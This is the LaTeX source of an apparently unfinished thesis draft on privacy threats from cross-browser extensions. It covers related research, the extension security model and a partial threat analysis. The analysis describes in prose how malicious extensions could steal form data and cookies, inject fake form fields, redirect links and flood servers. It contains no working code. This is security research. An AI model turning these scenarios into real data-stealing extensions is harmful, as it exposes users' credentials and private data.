% !TeX spellcheck = en_US
\documentclass[parskip=full,bigchapter,linedtoc,colorback,accentcolor=tud9c,type=bsc]{tudthesis}
\usepackage[utf8]{inputenc}
\usepackage{listings}
\usepackage{array}
\usepackage{url}
\usepackage[hypcap=true]{caption}
\usepackage{hyperref}
\usepackage{float}
\usepackage{cmap}
\usepackage[space=true]{accsupp}
\usepackage{textcomp}

\def\sectionautorefname{Section}
\def\subsectionautorefname{Section}
\def\subsubsectionautorefname{Section}

\let\oldsection\section
\renewcommand{\section}{\newpage\oldsection}

\newfloat{code}{h}{codeextracts}
\floatname{code}{Code Extract}
\def\codeautorefname{Code Extract}

\newfloat{listing}{h}{enumerates}
\floatname{listing}{List}

\newcommand\noncopynumber[1]{
	\BeginAccSupp{method=escape,ActualText={}}
	#1
	\EndAccSupp{}
}

\lstset{
	columns=fullflexible,
	keepspaces=true,
	numbers=left,
	xleftmargin=2.3em,
	numberstyle=\noncopynumber,
	literate={-}{-}1
	         {*}{*}1,
	upquote=true,  
}

\begin{document}
	
	\thesistitle{Privacy Threat Analysis Of Browser Extensions}{Analyse der Privatsphäre von Browser-Erweiterungen}
	\author{Arno Manfred Krause}
	\referee{Referee 1}{Referee 2}
	\department{Computer Science}
	\group{cased}
	\makethesistitle
	%	\affidavit{Arno Krause}
	
	\tableofcontents
	\newpage
	
	% !TeX spellcheck = en_US

\section{Motivation}
	% statistics (browser usage, extension amount, extension usage)
	% real world examples of malicious extensions
\section{Goals}
\section{Approach}
	% work steps / paper draft
	
	% !TeX spellcheck = en_US

\chapter{Related Works}
\label{chp:relatedWorks}

	In this chapter, we review related works that we discovered during our research and that left their mark on our design and concept. In the first section, we discuss the research that directly affected the extension architecture that we analyze in this paper namely the work of Barth et al. which lays the foundation for the extension architecture, and the work of Carlini et al., in which they evaluated the new architecture and conducted additional security features \cite{Barth10protectingbrowsers, Carlini:2012:EGC:2362793.2362800}. In the second section, we present existing works on extension threat analysis. Thirdly, we present existing approaches to detect malicious extensions.

\section{Extension Architecture}
\label{sec:relatedWorks:extensionArchitecture}

	Firefox's initial extension architecture called \textit{Add-ons} was the subject of multiple scientific analyses which revealed several vulnerabilities such as an attacker being able to compromise the user's machine or to hide an installed, malicious extension completely from the user \cite{Bandhakavi:2011:VBE:1995376.1995398, TerLouw:2007:EWB:1420581.1420583}. The researchers proposed different approaches to improve the security for the user such as to find malicious code pattern \cite{Bandhakavi:2011:VBE:1995376.1995398}, monitor the extension at runtime and detect the theft of sensitive information \cite{Dhawan:2009:AIF:1723192.1723250, cs2015sentinel, TerLouw:2007:EWB:1420581.1420583}, or add an integrity check of an extension's code at runtime \cite{TerLouw:2007:EWB:1420581.1420583}. A very successful approach was proposed by Barth et al. who designed a new extension architecture that was later on adapted by multiple browsers \cite{Barth10protectingbrowsers}. 
	
	Barth et al. analyzed Firefox's Add-on model and found several vulnerabilities which may be used by an attacker to gain access to the user's computer. In their research they focused on unintentional security vulnerabilities in extensions which occur because extension developers are often not security experts. Firefox runs its extensions with the user's full privileges including to read and write local files and launch new processes. This gives an attacker, who has compromised an extension, the possibility to get control over the user's machine. 
	
	Barth et al. proposed a new, more secured model for extensions. In the case that an extension is compromised, the attacker's operating range is minimized. The proposed architecture was adapted by Google's developers for their Chrome browser in 2010. Carlini et al. evaluated the security mechanisms of Google's implementation and reviewed 100 extensions \cite{Carlini:2012:EGC:2362793.2362800}. They discovered 40 containing vulnerabilities of which 31 could have been avoided if the developer would have followed simple security best practices such as using HTTPS instead of HTTP and the DOM property \texttt{innerText} that does not execute inline scripts instead of \texttt{innerHtml}. They stated, that the architecture's security mechanisms effectively protect the user from an attacker who uses a malicious web page. However, they discovered that network attacks are a bigger threat to the extension than attacks from a web page. An attacker can compromise an extension by modifying a remotely loaded script that was fetched over a HTTP request. 
	
	In order to increase the security of Chrome extensions, Carlini et al. proposed to ban the loading of remote scripts over HTTP and inline scripts inside the extension's core scripts. They did not propose to ban the use of eval in light of the facts that eval itself was mostly not the reason for a vulnerability and banning it would break several extensions. Google's developers were responsive to the exposed vulnerabilities and added a default Content Security Policy to web pages inside the extension \cite{chromiumBlogCSP}. Furthermore, they disabled the fetching of remote scripts with HTTP using script elements inside the extension's web pages.
 
 	In our work, we conduct a privacy threat analysis of browser extensions focusing on intentionally implemented attacks targeting the current user. Our research shows that although the extension architecture provides many security features, it does not protect the user from intentionally implemented malicious behavior.
 
 \section{Threat Analysis of Malicious Extensions}
 \label{sec:relatedWorks:threatAnalysis}
 
	Other researchers have already investigated the threats that arise from a malicious extension. For that purpose, they followed a workflow that we also use in our research. They examined the extension's architecture, pointed explicit threats, and implemented a proof-of-concept that uses discovered threats.
 
	Liu et al. conducted a threat analysis of Chrome extensions and discovered that the extension's unrestricted access to the web page and the possibility to execute unrestricted web requests pose harm to the user's privacy \cite{Liu12chromeextensions:}. These capabilities enables a malicious extension to extract and transfer sensitive user information from any web page that the user visits. The researcher's analysis revealed that the extension's components share the same set of privileges which leads to some components having privileges they do not need. This violates the principle of least-privileges which was intended by the designers and therefore facilitates the integration of malicious behavior. 
	If the extension requests the privileges to access a specific origin, the extension is allowed to access matching web pages and to programmatically execute web requests to the server. Liu et al. proposed separated privileges for each component and to split them based on particular operations such as to inject a script or execute a web request. However, the scripts that can access the web page's DOM are still able to execute unrestricted web requests by adding an element to the DOM that fetches a resource from a remote origin. To mitigate this threat, the researchers proposed to restrict the extension and allows that only content from listed origins can be added to the DOM. \\
	Furthermore, an extension has unrestricted access to the web page and its content. This allows a malicious extension to extract sensitive information. Liu et al. proposed a categorization of DOM elements to identify container of sensitive information and restricted access to these elements by default. \textit{High level} elements such as input elements of type password or hidden contain inherently sensitive information. To identify \textit{medium level} elements that may contain sensitive information, the researchers proposed a catalog with regular expressions that match code words such as \textit{username}. Finally, every element else is categorized as \textit{low level}. By default, an extension should have only access to low level elements and the extension may request access to the other levels by a proper permission. \\
 	
	In another research, Liu et al. demonstrated the possibility to user extensions in a botnet \cite{liu2011botnet}. As a proof-of-concept, they developed an extension for Chrome and another for Internet explorer that act as bots. The extensions are able to execute DDoS attacks, email spamming, and steal the user's credentials. To send an email, the extension uses the user's email account. If the user logs into his account, the extension executes a web request to send an email with the spamming content. The email server will actually execute the request because the user is currently authenticated. \\
 	A botnet needs a communication channel that allows the attacker to control the bots. For their extensions, the researchers use the automatic update and modify the content of a configuration file. The extension reads the file and acts accordingly. After the attacker publishes a new update, which will start a new attack, the update will be installed as soon as the browser is active. 
 	
	Another research about malicious Chrome extensions demonstrates a large list of possible attacks against the user's privacy \cite{extensions:cns14}. Bauer et al. implemented several attacks such as stealing sensitive information, executing CSRF attacks, and tracking the user. 
	 
	Ter Louw et al. evaluated Firefox's Add-on model with the main goal to ensure the integrity of an extension's code \cite{TerLouw:2007:EWB:1420581.1420583}. They implemented an extension to show that it is possible to manipulate the browser beyond the features that Firefox provides to its extensions. They used the found exploits to hide their extension completely by removing it from the list of installed extensions and injecting it into an presumably benign extension. Furthermore, their extension collects any user input and data and sends it to an remote server. Firefox can not ensure the integrity of an extension's code because it does not validate it when loading the extension. Therefore, a malicious extension can silently integrate code into another installed extension. In order to remove this vulnerability, Ter Louw et al. proposed so-called user-signed extensions. The user has to explicitly allow the installation of an extension which is then signed with a user's certificate. The extension's integrity will be tested against the certificate when it is loaded. 

	In our work, we do not limit ourselves to the extensions of a specific browser, but instead focus on a cross-browser architecture. For that purpose, we ensured that our proof-of-concept implementations work as expected in all applicable browsers. Furthermore, our extension analysis shows that even complex attack scenarios can be executed with existing extensions.
	
\section{Detection Of Malicious Extensions}
\label{sec:relatedWorks:detectionOfMaliciousExtensions} 
	
	There are several works on automatic detection of malicious extensions. We present two works that focus on Chrome extensions and one that focuses on Firefox Add-ons.
	
	\textit{Hulk} is an dynamic analysis and classification tool for chrome extensions \cite{184485}. It categorizes analyzed extensions based on discoveries of actions that may or do harm the user. An extension is labeled \textit{malicious} if behavior was found that is harmful to the user. If potential risks are present or the user is exposed to new risks, but there is no certainty that these represent malicious actions, the extension is labeled as \textit{suspicious}. This occurs, for example, if the extension remotely loads scripts whose content can change without any relevant changes in the extension. The script needs to be analyzed every time it is loaded to verify that it is not malicious. The developers stated that this task can not be accomplished by their analysis tool. Lastly, an extension without any trace of suspicious behavior is labeled as \textit{benign}.  Kapravelos et al. used Hulk in their research to analyze a total of 48,322 extensions, where they labeled 130 (0.2\%) as malicious and 4,712 (9.7\%) as suspicious. \\
	Before the actual analysis, Hulk performs static preparations such as to collect URLs from the extension's source code that may trigger its behavior. Additionally, the developer fed Hulk with popular websites such as Facebook, Amazon, or Twitter. This task has its limitations. The presented solution is not able to create accounts and therefore cannot access web pages specific to a concrete account. \\
	The actual, dynamic analysis consists of the monitoring and evaluating of API calls, in- and outgoing web requests, and injected content scripts. Some calls to Chrome's extension API are considered malicious, such as uninstalling other extensions or preventing the user to uninstall the extension itself. This is often accomplished by closing Chrome's extension page as soon as the user opens it and therefore denying the user access. Web requests are analyzed for modifications such as removing security relevant headers or changing the target server. Hulk uses so called \textit{honey pages} to analyze the interaction with a web page or its manipulation by an extension. These consist of overridden DOM query functions that create elements on the fly. If a script queries for a DOM element, the honey page creates it and monitors any interaction. 
	
	\textit{WebEval} is an analysis tool to identify malicious Chrome extensions \cite{190984}. Its main goal is to reduce the amount of human resources needed to verify that an extension is indeed malicious. Therefore, it relies on an automatic analysis process whose results are valuated by a machine learning algorithm. Ideally, the system runs without human interaction. The research of Jagpal et al. shows that the false positive and false negative rates of their system decreases over time but new threats result in a sharp increase. They concluded that human experts must always be a part of their system. In three years of usage, WebEval analyzed 99,818 extensions in total and identified 9,523 (9.4\%) malicious extensions. Automatic detection identified 93.3\% of malicious extensions which were already known and 73,7\% of extensions flagged as malicious were confirmed by human experts. \\
	In addition to their analysis pipeline they stored every revision of an extension that was distributed to the Google Chrome web store in the time of their research. A weakly rescan targets extensions that fetch remote resources that may become malicious. New extensions are compared to stored extensions to identify almost duplicated extensions and known malicious code pattern. WebEval also targets the identification of the developer who distributes malicious extensions and fake accounts inside the Google Chrome web store. Therefore reputation scans of the developer, the account's email address and login position are included in the analysis process.  \\
	The extension's behavior is dynamically analyzed with generic and manual created behavioral suits. Behavioral suits replay recorded interactions with a web page to trigger the extension's logic. Generic behavioral suits include techniques developed by Kapravelos	et al. for Hulk \cite{184485} such as \textit{honeypages}. Manual behavioral suits test an extension's logic explicit against known threats such as to uninstall another extension or modify CSP headers. In addition, they rely on anti-virus software to detect malicious code and domain black lists to identify the fetching of possible harmful resources. If new threats surface WebEval can be expanded to quickly respond. New behavioral suits and detection rules for the self learning algorithm can target explicit threats. 
	
	\textit{VEX} is a static analysis tool for Firefox Add-ons \cite{Bandhakavi:2011:VBE:1995376.1995398}. Bandhakavi et al. analyzed the work flow of Mozilla's developers who manually analyze new Firefox Add-ons by searching for possible harmful code pattern. They implemented VEX to extend and automatize the developer's search and minimize the amount of false-positive results. VEX statically analyses the flow of information in the source code and creates a graph system that represents all possible information flows. They created a pattern for the graph system that detects possible cross-site scripting attacks with \textit{eval} or the DOM function \textit{innerHtml} and Firefox specific attacks that exploit the improper use of \textit{evalInSandbox} or wrapped JavaScript objects. More vulnerabilities can be covered by VEX by adding new flow pattern. VEX targets buggy Add-ons without harmful intent or code obfuscation. 
	
	
	% !TeX spellcheck = en_US

\chapter{Background}

\section{Terminology}
	% We explain therms we use in this paper

\paragraph{Web Browser}

	A \textit{web browser} or simply \textit{browser} is an application that allows a user to interact with the Internet. Its main purpose is to display fetched web pages and to allow the user to interact with them. Internally, it communicates with remote servers by sending HTTP and HTTPS requests and processing the returned responses. Therewith, it fetches HTML web pages from and sends user information back to the servers.
	
	% Currently popular web browsers are Google's Chrome, Mozilla's Firefox, Microsoft's Internet Explorer which is replaced by their new Edge browser, Apple's Safari, and the Opera browser. 

\paragraph{Browser Extension}

	A \textit{browser extension} is an additional piece of software that extends the functionality of a browser. With an extension, it is possible to modify the visual style and behavior of a browser itself and displayed web pages. 

\paragraph{Web Application}

	% Application executed remotely over the network and implements client-server architecture, similar funcitonaly to local desktop applications

\paragraph{Web Page}
	% Document fetched from a remote server and displayed by the browser, consists of HTML as structure, CSS as design, and JavaScript to manipulate content dynamically,

\paragraph{Document Object Model (DOM)}

	The \textit{Document Object Model} is an API for representing HTML or XML documents as a tree. This allows scripting languages such as JavaScript to easily manipulate the document's content. It is used by browsers to internally store 
	% Browser intern representation of a web page, standardized, accessible from JavaScript as document object, 

\paragraph{Same Origin Policy (SOP)}
	
	The \textit{Same Origin Policy} is a browser security policy that isolates web pages with different \textit{origins} from each other. The origin of a web page is defined by the scheme, host, and port of its URL \cite{w3cOriginSpecification}. The browser permits scripts to access the content of another web page only if both have the same origin. Whereas, the origin of a script is defined by the origin of the web page that it is embedded into and not the origin from where the script was fetched. This policy prevents malicious scripts to access sensitive information from another web page and to execute requests to cross-origins. 
	
	A simple scenario shows why this policy is an important and efficient tool to secure the user's privacy. If a user authenticates to a web application such as an online banking platform, a cookie that contains a unique identifier is often stored inside the user's browser. The cookie is send along any request to the web application and authenticates the user on each request. Without the SOP, a malicious script within another browser tab could send a valid request to the application because the authentication cookie is send along the request. The script could fetch a secured web page from the application and read out the user's sensitive information or perform a request to execute an action on behalf of the user such as to execute a banking transfer.  
	
\paragraph{Content Security Policy (CSP)}

	The \textit{Content Security Policy} is another browser security policy that restricts the sources from which the web page is allowed to fetch its resources \cite{w3cContentSecurityPolicySpecification}. Unlike the SOP which restricts all web pages, the CSP has to be declared by the web page's author. It is intended to reduce the attack surface in the case that an attacker has successfully compromised the web page. By explicit declaring origins from which the web page is allows to fetch resources, the attacker is hampered because he is not able fetch additional malicious content from his server. Furthermore, the CSP disables the use of \textit{eval} and related functions such as \texttt{setTimeout(string, number)}, \texttt{setInterval(string, number)}, and \texttt{new Function(string)} and it disables inline JavaScript (\texttt{<script>...</script>}) and inline event handler (\texttt{<button onclick="...">}).
	
	A CSP contains of several directives and corresponding values delimited by a semicolon. A directive declares the restriction for a particular resource type such as scripts, styles, or images. The corresponding values declare origins from which the web page is allowed to load the resources. They may either be a URL with wildcards to match several origins at once, \texttt{'none'}, or \texttt{'self'}. The \textit{none} key disables the loading of the resource from any origin and the \textit{self} key restricts it to the web page's origin. To remove the additional restriction on eval, the web page's developer may add the key \texttt{'unsafe-eval'} to the script directive and to remove the additional restriction on inline scripts, the developer may add the key \texttt{'unsafe-inline'} to generally allow inline scripts. A more fine-grained tuning can be achieved by a nonce or hash. A nonce is randomly generated value that is declared in the script directive and enables any script element that has a \textit{nonce} attribute containing the same random value. Similar, adding the computed hash value of a script to the script directive enables the execution of this script. Both approaches do not work for inline event handler.
	
	The following example shows a valid CSP:
	\begin{center}
		\texttt{default-src 'self'; script-src 'self' https://trusted.server.com/* 'unsafe-eval';}
	\end{center}
	First we set the default directive and therewith restrict all other directives to the web page's origin. Then, we lighten the restriction to load scripts from a trusted server and allow the user of eval in loaded scripts.

\paragraph{XMLHttpRequest (XHR)}

	The XMLHttpRequest 
	% Allows to make HTTP/HTTPS requests with JavaScript, used to dynamically load content or transfer information, 


\newpage
\section{Extension Architecture}
%TODO
	In the past, each browser had its own architecture for extensions. This lead to an additional workload for a developer, if he wanted his extension to be compatible with multiple browsers. He had to implement an extension for each browser although each provides equal functionality. Nowadays, the browsers' developers seem to address this unhandy situation and started to use a cross-browser extension architecture. In our paper, we focus this architecture which is supported by Google's \textit{Chrome} browser, Mozilla's \textit{Firefox} browser, Microsoft's \textit{Edge} browser, and the \textit{Opera} browser. We have analyzed the extension's structure in-depth and provide our results in this section.

	In this paper, we focus on an extension architecture that is compatible with multiple browsers. We have analyzed its structure and present and overview in this section. Furthermore, we compare it to other existing extension architectures.

	The extension architecture that we investigate in this paper is based on a research from 2010 \cite{Barth10protectingbrowsers}. The researchers examined the model of Firefox's Add-ons and revealed many vulnerabilities in connection to Add-ons running with the user's full privileges. This enables an attacker, in the case that he has compromised the Add-on, to access arbitrary files and launch new processes. To counter the found exploits, the researchers proposed a new model that should protect the user from unintentionally implemented vulnerabilities.

	The developers of Google's Chrome browser where the first to adapt the proposed model in 2010. Then in 2013, the developers of the Opera browser switched the browser's underlying framework to \textit{Chromium} which is also the framework for Chrome \cite{operaBlogSwitchToChromium}. With this change, they adopted the same extension architecture that Chrome uses. In 2015, the developers of Mozilla's Firefox browser announced that they will support the extension model, too. They published a first version of their implementation in version 42 of Firefox. Currently, their implementation is still in development and therefore not all browser APIs are supported \cite{mozillaWebExtensionStatus}. Similar, Microsoft started in 2016 to implement the extension architecture for their new Edge browser and the support for many browser APIs is currently still in development \cite{edgeBrowserApiStatus}.

\subsection{General Structure}

	Extensions implemented in the cross-browser architecture use only web technologies such as JavaScript, HTML, and CSS. All included files are declared in a mandatory manifest which also holds the extension's meta information such as its name, version, and author. The extension's general structure is divided into a background page that holds the extension's main logic and content scripts that are used to interact with web pages.
	
\subsubsection{Background Page}

	The \textit{background page} is a for the user invisible HTML document which includes JavaScript code that controls the extension's behavior. From within the background page, the extension has access to additional functionality provided by a browser API such as access to the browser's tab-system, the possibility to observe and intercept web requests, or the access to the user's bookmarks. The full list of provided modules is available at the developer platform\footnote{\url{https://developer.chrome.com/extensions/api_index}}. \\
	To use some of the browser API modules, the extension has to declare a corresponding permission in its manifest. Similar, to access a remote server using a web request or a tab that contains a web page, the extension has to declare a host permission that matches the target's URL. A host permission is a URL pattern that may contain wildecards for the scheme, domain, or path to match several web pages at once. For example, the URL pattern \texttt{http://*.example.com/*} matches \texttt{http://api.example.com/} and \texttt{http://www.example.com/foo} but not \texttt{https://www.example.com/} and \texttt{http://www.example.org/}. \\
	Additionally, a developer can declare the access to API modules that are not required for his extension's basic functionality as optional permissions. If the extension requests access to an optional API module at runtime, the browser prompts the user to confirm the request. A confirmed optional permission stays active even after a browser restart until the extension itself removes it. Furthermore, host permission may also be declared as optional which gives the user a fine-grained tuning of websites to which an extension has access to.
	An extension may include additional user interface elements such as pop-up or option pages. JavaScript inside a user interface has direct access to the background page which allows it to invoke methods and access variables of it and vice versa. 
	
\subsubsection{Content Scripts}
	
	A extension can not directly access a web page or its DOM from within its background. For that purpose, it uses content scripts which have full access to the DOM of a single web page in whose context they are active. This allows the extension to extract values from the web page or to modify its content. Content scripts are very limited in their access to the browser's API. They can only use a small subset of modules such as the internationalization or the storage module. Furthermore, the background and a content script can not directly interact with each other. They can only use a JSON-based communication channel to transfer commands or data between each other. 
	
	Besides the programmatically injection of a content script into a tab from within the extension's background, the developer can also register the content script in the extension's manifest. Using a URL pattern like for host permissions in combination allows to determine the web pages in that the content script will be active. In contrast to the programmatically injection which needs a valid host permission to access the tab, the statically registered content scripts do not need additional permissions. 
	
	A content script underlies almost the same restriction as a web page. The Same Origin Policy that restricts a script to access another origin than its own applies partly to a content script. If the web page contains an iframe element from a cross-origin, the content script that runs in the main web page can not access the iframe's content. The iframe is handled as separate web page which means that another content script may be active in its context. To allow the execution of a content script in iframes, the \texttt{all\_frames} option has to be declared either in the manifest or for a programmatically injection. The SOP also restricts web requests to cross-origins. But here exists a exception for content scripts because they are allowed to execute programmatically executed web requests using a XMLHttpRequest. The request is only restricted by the extension's host permissions but not by the SOP. 

\subsection{Security Features}

	The researchers that designed the cross-browser extension architecture focused to improve the security of the extension's user. They developed the architecture under the assumption that many extension developers are merely hobby developers and not security experts and therefore may unintentionally implement vulnerabilities \cite{Barth10protectingbrowsers}. The extension architecture underlies several security features which we present in this section.
	
\subsubsection{Privilege Separation}

	While analyzing Firefox Add-ons, the researcher found many exploits that allow an attacker to access the user's system. This threat arises from the fact that Firefox Add-ons run with the user's full privileges which allows them to access arbitrary files and launch new processes. Therefore, the researcher's first step was to divide the extension in components where each has a unique set of privileges. Nowadays, no part of the extension is able to access the user's machine directly. They can only exchange messages with natively running applications. 
		
\subsubsection{Component Separation}

	To hamper an attacker that has compromised one component of an extension, the extension's components are strictly separated from each other. The extension's background and each content script runs in its own process on the host's operating system. This creates an efficient boundary between the components because they do not share a common memory section and are therefore not able to invoke methods or access variables of each other. If an attacker has compromised one component of the extension, he can only access the other through the JSON-based message channel. If the extension's developer did not implement an attack vector at the other side of the communication channel, the attacker is not able to compromise the rest of the extension. 
	
\subsubsection{Isolated World}
	
	Because content scripts are exposed to potential attacks from malicious web pages, they underly an additional security feature called \textit{Isolated World}. Each content script and the JavaScript inside the web page runs in its own process on the operating system. Consequently, none of them is able to access methods or variables of another. Furthermore, each script has its own instance of the \texttt{document} object mirroring the web page's DOM that is natively stored inside the browser. If a script modifies the DOM, each instance is updated accordingly. But if a script overrides a DOM method or adds a non-standard property to its \texttt{document} object, the changes will not be transfered to the internally stored DOM and consequently not to other instances of the \texttt{document} object, too.	
	
	This mechanism effectively shields content script from \textit{cross-origin JavaScript capability leak} attacks that try to manipulate the behavior of JavaScript methods used by the content script \cite{Carlini:2012:EGC:2362793.2362800, Barth:2009:CJC:1855768.1855780}. Furthermore, if a content script inserts untrusted HTML code into a web page's DOM for instance setting the \texttt{innerHTML} property of a DOM element, any code inside the content will be executed inside the web page's separated process instead of the content script's process. Thus, the strict separation prevents potential XSS attacks against the extension that the developer may has added unintentionally.

\subsubsection{Permissions}

	The permission system is not only intended to get a lead of the extension's capabilities and purpose, but also acts as a security feature to reduce the attack surface in the case that an attacker has compromised the extension. It works with the principle of least privileges. An extension has by default access to no API modules and origins. Only if it declares a permission it is granted access to the corresponding privilege. An attacker is also restricted by this constraints. He is not able to access other privileges than the declared ones. 
	
\subsubsection{Content Security Policy}

	To reduce the threat of potential cross-site scripting attacks, the background page underlies a Content Security Policy. The default CSP consists of the directives \texttt{script-src 'self'} and \texttt{object-src 'self'}. This limits the loading of scripts and other resources to files from within the extension's bundle. Additionally, it disables the use of \texttt{eval} and inline scripts.  \\
	A developer may relax or tighten the policy for his extension by declaring a custom CSP in the extension's manifest which has to contain at least the \textit{script} and \textit{object} directives. Adding the URL of a remote origin to the CSP allows to fetch resources from the declared host. Again, an URL pattern may be used to match several hosts at once, but wildcards are only allowed for the subdomain. To ensure that remotely loaded resources have not been replaced or modified by a network attacker, only origins that use a secured connection such as HTTPS are allowed. If the developer wishes to use \texttt{eval} or related functions in his extension's background page, he has to add the value \texttt{'unsafe-eval'} to the \textit{script} directive. If he wishes to use inline scripts, he has to add the hash value of the script to the script directive. The \texttt{'unsafe-inline'} key is not allowed and therefore the execution of inline event handler can not be enabled.

\subsection{Compared To Other Architectures}

	

\subsubsection{Firefox Add-ons}
	
	%TODO
	Firefox's support for the multi-browser extension model is currently still in development \cite{mozillaWebExtensionStatus}. Therefore, extensions implemented in the old Add-on model are still in use. 
	
	Mozilla distributes Add-ons through their own web store\footnote{Firefox Web Store: \url{https://addons.mozilla.org/en-US/firefox/}} but also allows the installation from other sources. Add-ons published through the web store are target of a review by Mozilla's security experts \cite{mozillaDevReviewPolicy}. After passing the review, the Add-on is signed by Mozilla what is shown on installation to the user. Similarly, if an Add-on is published private and was not the target of a successful review, it is labeled as untrusted on installation. 
	
	
	% The user can download and install Add-ons from the official web store but also from any other source. Add-ons published over the web store are signed my Mozilla and were the target of a security review by Mozilla's developers. This should prevent the distribution of malicious extensions.
	
	Firefox Add-ons are developed with a JavaScript framework distributed by Mozilla. 
	
	
	% direct access to web page, developer may unintentionally implement XSS vulnerability that gives attacker access to the extension's core, 
	
	
	Firefox uses a security mechanism to prevent an attacker that has compromised an Add-on to access modules that are not explicit requested inside the add-on. On compiling the add-on, a scanner lists all requests to modules inside the add-on's code. The runtime loader will actually prevent the loading of modules that are not listed. This prevents an attacker to use further modules and more privileged functions at runtime.
	
	

\subsubsection{Safari Extensions}

	Safari extensions are very limited in their capabilities. The browser provides almost no functionality and therefore extension's are restricted to the interaction with web pages. This increases the user's privacy at least partly because an extension can not access information stored inside the browser such as bookmarks or the browsing history, but most sensitive information are stored inside web pages. To publish an extension, the developer needs a certificate provided by Apple. This ensures that only registered developer are able to publish extensions and hampers the distribution of malicious extensions. If a certificate is invalid Safari will disable the developer's extensions.
	
	The browser provides a build-in user interface for extension development called \textit{Extension Builder}. It manages the extension's content such as meta information or source code files.	An additional feature facilitates to block content in web pages. The extension's developer can add content-blocking rules to his extension that are compiled into a byte-code format and processed directly at runtime. This renders the programmatically examination of a web page's content and determination of blocking unnecessary and therefore provides a better performance \cite{safariContentBlockingRules}.  
	
	% !TeX spellcheck = en_US

\chapter{Threat Analysis}

	An extension can use a wide range of different features to enhance the user's interaction with a web page. We want to show that these features may be used by a developer of a malicious extension to harm the user. For that purpose, we have analyzed the extension's capabilities and found potential threats. We have found several permissions and modules that an attacker may use to harm the user's privacy, use his device to launch attacks against others, or remove privacy preserving measures and therefore support attacks from malicious web pages. %We also found some constructs which preserve the privacy of the user if used correctly.  

\section{Content Scripts}

	A big threat to the user's privacy that an extension posses is its full access to a web page. If the extension uses a content script with a URL pattern that matches any web page, it has access to any user data that the page contains. There exists no further restriction such as additional permissions to access password fields or other container of sensitive data. Furthermore, an extension is able to execute cross-origin requests to any arbitrary web page. For that purpose, it can use the mechanics of a DOM element that fetches a resource from a remote server such as an iframe, image, script, or link. We have listed some potential attack scenarios:
	
	\begin{itemize}
		\item \textbf{Steal User Data From Forms} Any information the user transmits over a form in a web page is accessible for an extension. To steal this information, the extension adds an event listener which is dispatched when the user submits the form. At this point in time, the extension can read out all information that the user has entered in the form. This approach gives the attacker access to the user's personal information such as his address, email, phone number, or credit card number but also to identification data such as social security number, identity number, or credentials. Especially username and password for a website's login are typically transmitted with a form.
		
		\item \textbf{Steal Displayed User Data} Any information about the user that a web page contains is accessible for an extension. To steal this information, the attacker has to explicit know where it is stored in the web page. This is mostly a trivial task, because most web pages are public and the attacker is therefore able to analyze the targeted web page's structure. With this attack, an attacker is able to obtain a broad range of different information such as the user's financial status from his banking portal, his emails and contacts, his friends and messages from social media, or bought items and shopping preferences.
		
		\item \textbf{Modify Forms} An extension can add new input elements to a form. This tricks the user into filling out additional information that are not necessary for the website but targeted by the attacker. For that purpose, the extension adds the additional input fields to the form when the web page loads, steals the information when the user submits the form, and removes the additional fields afterwards. The last step is necessary because the web application would return an error the form's structure was modified. This attack will succeed if the user does not know the form's structure beforehand. To decrease the probability that the user knows the form already, the extension can determinate whether or not the user has visited the web page to an earlier date before executing the attack. 
		
		\item \textbf{Modify Links} An extension can modify the URL of a link element to redirect the user to a another web page. This page may be malicious and infect the user's device with malware or it may be a duplicate of the web page to which the link originally led and steal the user's data. But the attacker may also enrich himself through the extension's users. Some companies pay money for every time someone loads a specific web page. The attacker can redirect the user to this web page and gain more profit.

		\item \textbf{Denial Of Service} If the source attribute of a DOM element such as an iframe or image changes, the browser sends a HTTP request to fetch the desired resource from the targeted server. An extension can add an unlimited number of elements to the web page's DOM and thereby flood a targeted server with requests. The attack is even more potent if the malicious extension is installed on many browsers and each executes the attack simultaneously.
	\end{itemize}
	
\section{Browser API}
	
	In this section, we present found threats that arise from API modules and are unlocked by a declared permission. are associated with a permission. Most of the permissions give access to an API module whose features may be misused in some form.  
	
	
	
	%TODO add optional permissions, once confirmed stay active if extension does not remote it itself, user tend to confirm security prompts without evaluating them, ref to https://www.usenix.org/legacy/event/sec09/tech/full_papers/sunshine.pdf which is about invlid SSL certificates
	
	%TODO activeTab permission
	
	The following paragraphs show the threats which we found in the browser's API modules. Each paragraph has the module's name as heading which is equal to the associated permission. Additionally, if the permission results in a warning on the extension's installation, we added it to the paragraph.
	
\newenvironment{permissionwarning}{%
	\setlength\topsep{4pt}
	\setlength\parskip{0pt}
	\itshape
\begin{center}
	}{%
\end{center}
}

\paragraph{background}
	This permission is an exception, because it is not related to an API module. Instead, if one or more extensions with the background permission are installed and active, the browser starts its execution with the user's login into the operating system without being invoked and without opening a visible window. The browser will not terminate when the user closes its last visible window but keeps staying active in the background. This behavior is only implemented in Chrome and can be disabled generally in Chrome's settings.
	
	A malicious extension with this permission can still execute attacks even when no browser window is open.
	
\paragraph{bookmarks} 
	This module gives access to the browser's bookmark system. The extension can create new bookmarks, edit existing ones, or remove them. It can also search for particular bookmarks based on parts of the bookmark's title, or URL and retrieve the recently added bookmarks.
	
	The user's bookmarks give information about his preferences and used web pages. This may be used to identify the currently active user or to determinate potential web page targets for further attacks.
	
	On installation, an extension with this permission shows the user the following warning:
	\begin{permissionwarning}
		Read and modify your bookmarks
	\end{permissionwarning}
	
\paragraph{contentSettings} 
	The browser provides a set of \textit{content settings} that control whether web pages can include and use features such as cookies, JavaScript, or plugins. This module  allows an extension to overwrite these settings on a per-site basis instead of globally.
	
	A malicious extension can disable settings which the user has explicitly set. This will probably decrease the user's security while browsing the web and support malicious web pages.
	
	On installation, an extension with this permission shows the user the following warning:
	\begin{permissionwarning}
		Manipulate settings that specify whether websites can use features such\\as cookies, JavaScript, plugins, geolocation, microphone, camera etc.
	\end{permissionwarning}
	
\paragraph{cookies} 
	This module give an extension read and write access to all currently stored cookies, even to \textit{httpOnly} cookies that are normally not accessible by client-side JavaScript.
	
	An attacker may use an extension to steal session and authentication data which are commonly stored in cookies. This allows him to act with the user's privileges on affected websites. Furthermore, an malicious extension may restore deleted tracking cookies and thereby support user tracking attempts from websites.
	
\paragraph{downloads} 
	This module allows an extension to initiate and monitor downloads. Some of the module's functions are further restricted by additional permissions. To open a downloaded file, the extension needs the \texttt{downloads.open} permission and to enabled or disable the browser's download shelf, the extension needs the permission \texttt{downloads.shelf}.  
	
	With the additional permission \texttt{downloads.open}, a malicious extension can download a harmful file and execute it. Another malicious approach is to exchange a benign downloaded file with a harmful one without the user noticing. 
	
\paragraph{geolocation}
	The HTML5 geolocation API provides information about the user's geographical location to JavaScript. With the default browser settings, the user is prompted to confirm if a web page want's to access his location. If an extension uses the geolocation permission, it can use the API without prompting the user to confirm.
	
